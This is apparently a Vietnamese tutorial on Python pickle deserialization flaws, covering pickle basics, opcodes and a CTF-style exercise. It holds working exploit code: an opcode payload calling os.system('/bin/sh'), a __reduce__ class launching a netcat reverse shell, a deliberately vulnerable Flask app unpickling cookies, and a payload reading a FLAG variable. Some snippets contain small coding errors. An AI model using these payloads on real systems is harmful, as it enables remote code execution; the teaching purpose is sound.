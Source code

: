 # Deserialization trong python

![](https://codefather.tech/wp-content/uploads/2021/05/python-pickle-840x480.png?ezimgfmt=rs:364x208/rscb7/ng:webp/ngcb7)

## 1. Lỗ hổng Deserialization trong python

Python cũng cung cấp các object serialization như Java và nó có nhiều modules.

bao gồm `Pickle`, `marshal`, `shelve`, `yaml` và `json`là  khuyến khích modules khi thực hiện serialize và deserialize.


Ta có thể quan sát sự khác biệt giữa Java và Python trong quá trình deserialize, Python không phụ thuộc vào dòng mã để tạo tải trọng cho nó một cách đơn giản.


Deserializing tất cả các lớp hành vi này có thể dẫn đến RCE Serialization có thể là được tìm thấy trong các `parameters` hoặc `cookie`.


Đầu tiên, ta sẽ khám phá Pickle có tính chất gì trong Python.

## 2. Serialization sử dụng trong `pickle` Python

Pickle được sử dụng để serializing và de-serializing object trong python, còn được gọi là sắp xếp hoặc làm phẳng. 

Serialization đề cập đến quá trình chuyển đổi một object trong bộ nhớ thành một luồng byte có thể được lưu trữ trên memory hoặc được gửi qua network.

Sau đó, luồng ký tự này sau đó có thể được truy xuất và deserialize trở lại object Python. 

Đầu tiên là chuyển đổi một đối tượng từ một biểu diễn (dữ liệu trong Bộ nhớ RAM) sang một biểu diễn khác (văn bản trên đĩa), trong khi thứ hai là quá trình mã hóa dữ liệu với ít bit hơn, để tiết kiệm memory.

## 3. Tại sao lại cần `pickle`?

`Pickle` rất hữu dụng cho các ứng dụng cần mức độ ổn định cho dữ liệu.

Trạng thái dữ liệu của chương trình có thể được lưu vào memory, để có thể tiếp tục làm việc với nó sau này.

Nó cũng có thể được sử dụng để gửi dữ liệu qua giao thức TCP hoặc Socket truyền object python trong cơ sở dữ liệu.

`Pickle` rất hữu ích khi đang làm việc với thuật toán học máy, nơi ta có thể lưu chúng để đưa ra các dự đoán mới sau này mà không cần phải viết lại mọi thứ hoặc train lại model.

## 4. Khi nào không nên sử dụng `pickle`

Nếu muốn sử dụng data trên các ngôn ngữ lập trình khác nhau thì `pickle` không phải là một sự lựa chọn. 

Giao thức của nó dành riêng cho Python, do đó, khả năng tương thích giữa các ngôn ngữ khác không được đảm bảo. 

Điều tương tự cũng xảy ra đối với các phiên bản Python khác nhau. 

Bỏ chọn một file được chọn trong một phiên bản Python khác có thể không phải lúc nào cũng hoạt động bình thường, vì vậy phải đảm bảo rằng ta đang sử dụng cùng một phiên bản và thực hiện cập nhật nếu cần. 

Ta cũng nên cố gắng không bỏ chọn dữ liệu từ một nguồn không đáng tin cậy. Mã độc hại bên trong tệp có thể được thực thi khi giải nén.

Module `pickle` thực hiện một thuật toán cơ bản nhưng mạnh mẽ cho serialize và deserialize cấu trúc object python.

Dữ liệu không đáng tin cậy được deserialze và có thể gây ảnh hưởng đến ứng dụng.

`Pickle` có các chức năng để serialization và deserialization:

* `dump`: Write serialized object để mở file.

* `load`: Chuyển đổi bytes stream thành object.

* `dumps`: Trả về serialized object dưới dạng chuỗi.

* `loads`: Trả về deserialization dưới dạng chuỗi.

Ví dụ: 

```python
import pickle

def serialze(obj):
    with open(r'file.txt', 'wb') as file:
      pickle.dump(obj, file)

def deserialze():
    with open(r'file.txt', 'rb') as file:
      print(pickle.load(file))

x = [i for i in range(5)]

serialze(x)

deserialze()
```

Đầu tiên ta sẽ tạo 2 hàm đầu tiên là `serialze()` để ghi object vào file.

Thứ hai là `deserialze()` để chuyển đổi bytes trong tệp tới object và trả về chúng. nó là một cái list nằm trong khoảng từ 0...4.

![](https://i.imgur.com/0guY8gj.png)

Hướng dẫn `Pickle`

* `C`: Đọc đến dòng mới dưới dạng tên module, tiếp theo đọc dòng mới như object hệ thống.

* `(`: Chèn object đánh dấu vào stack và ghép nối với `t` để tạo ra tuple.

* `t`: Pop các đối tượng ra khỏi ngăn xếp cho đến khi tạo được 1 tuple chức các object xuất hiện ngoại trừ `()` theo thứ tự.

* `S`: ĐỌc chuỗi sau trong dấu ngoặc kép hoặc đẩy nó vào stack 

* `R`: Đẩy kết quả vào ngăn xếp.

* `.`: Kết thúc `pickle`.


```
cos
system
(S'/bin/sh'
tR.
```

## 5. Khai thác RCE từ `Pickle`

Phần này ta sẽ sử dụng pickle trong thực tế để giao tiếp với máy chủ chấp nhận object được serialized qua kết nối socket.

```python
#!/usr/bin/python

import os, pickle, socket

def server(so):
    data = so.recv(1024)
    obj = pickle.loads(data)
    c.send('Object try again')

socks = socket.socket(socket.AF_INET, socket.SOCK_STREAM, 0)

socks.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)

while True:
    c, a = socket.accept()
    if os.fork() == 0:
        c.send('accept connect)
        server(c)
        exit()
```

Ta có thể tìm thấy các đối tượng dược serialize trong web của python được sử dụng cookies và nhiều nơi bị tấn công khác.

Sau khi xác định được lỗ hổng, tiếp theo ta cần RCE.

```python
import pickle, socket, os

class pwn(obj):
    def __reduce__(self):
        c = 'nc 127.0.0.1 4443 -e /bin/bash'
        return (os.system, (c,))

pwn = pickle.dumps(pwn())
soc = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
soc.connect(('127.0.0.1'), 4444)
print(soc.recv(1024))
soc.send(pwn)
print(soc.recv(1024))
```

Khi một object được tạo ra để được serialize trong trường hợp này nó là một lớp pwn.

Ta khám phá ra các điểm quan trọng để khai thác `pickle` liên quan đế lỗ hổng `__reduce__` ta xác định payload để reverse shell bằng cách sử dùng `netcat` sau đó nó phải được trả về string hoặc tuple.

## 6. Thực hành

Deserialization trong cookie:

Code:

```python
from flask import Flask
app = Flask(__name__)

@app.route('/')
def jar():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	return '<form method="post" action="/add" style="text-align: center; width: 100%"><input type="text" name="item" placeholder="Item"><button>Add Item</button><img style="width: 100%; height: 100%" src="/pickle.jpg">' + \
		''.join(f'<div style="background-color: white; font-size: 3em; position: absolute; top: {random.random()*100}%; left: {random.random()*100}%;">{item}</div>' for item in items)

@app.route('/add', methods=['POST'])
def add():
	contents = request.cookies.get('contents')
	if contents: items = pickle.loads(base64.b64decode(contents))
	else: items = []
	items.append(request.form['item'])
	response = make_response(redirect('/'))
	response.set_cookie('contents', base64.b64encode(pickle.dumps(items)))
	return response
```

Payload:

```python
#!/usr/bin/python3
import codecs
import base64
import pickletools

p  = b'('               # create mark
p += b'c'               # push self.find_class(modname, name); 2 string args
p += b'os\n'            # arg1
p += b'getenv\n'        # arg2
p += b'('               # create mark
p += b'S"FLAG"\n' # push string
p += b't'               # build tuple
p += b'R'               # apply callable to argtuple, both on stack
p += b'l'
p += b'.'               # stop

pickle_encoded = codecs.encode(p, 'base64').replace(b'\n', b'')

pickletools.dis(base64.b64decode(pickle_encoded), annotate=1)
print("Payload: " + bytes.decode(pickle_encoded))
```